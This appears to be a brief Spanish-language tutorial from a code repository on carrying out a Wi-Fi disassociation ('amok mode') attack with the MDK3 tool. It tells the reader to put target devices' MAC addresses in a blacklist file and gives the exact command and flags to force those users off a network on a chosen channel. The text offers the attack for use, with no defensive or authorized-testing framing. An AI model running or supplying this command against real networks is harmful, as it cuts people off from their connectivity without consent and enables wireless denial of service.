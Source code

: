 # Dissasociation Amok Mode Attack Con MDK3
Este ataque lo que hace es expulsar a los usuarios que se encuentran en la red.

Para esto vamos a generar una lista negra de los usuarios que deseamos expulsar, guardamos las direcciones macs de los dispositivos en un txt.

	mdk3 wlan1mon d -w blackList.txt -c 6

- d *hace referencia el tipo de ataque*
- -w blackList.txt *el nombre del archivo donde se encuentras las direcciones macs*
- -c 6 *el canal donde se encuentra el AC*


